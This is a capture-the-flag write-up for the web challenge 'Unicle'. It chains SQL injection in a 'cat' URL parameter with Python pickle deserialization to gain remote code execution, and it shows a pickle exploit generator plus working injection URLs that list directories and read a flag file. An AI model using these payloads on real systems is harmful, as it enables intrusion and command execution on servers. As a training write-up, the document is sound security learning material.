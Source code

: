 # Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/

![Unicle application](unicle01.png)

## Solution

After opening url, there's a simple HTML table with all stored objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload should contain standard characters used in attacks based on SQLi (like + as space, /**/ as comment and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because displayed HTML table had four columns and I've assumed four is good number to start from :) ):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```

![SQLi](unicle02.png)

That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). Two, maybe three blog posts later (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's blog - https://twitter.com/nelhage - linked below):


```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```


Generated exploit looks like this:


```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use _%0A_ as a separator between every line of above output (to be sure that Pickle deserializes payload in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:

![ls -l result](unicle04.png)


So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:


![flag](unicle_flag.png)

## Summary

I've spent a lot of time on this task, because I had no experience with web application based on used technologies - as you can see _vulnerable.py_ file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot while working on this task. 


## Links

Explaining and exploiting deserialization vulnerability with Python       
https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html            

Exploiting Misuse of Python's "Pickle"          
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
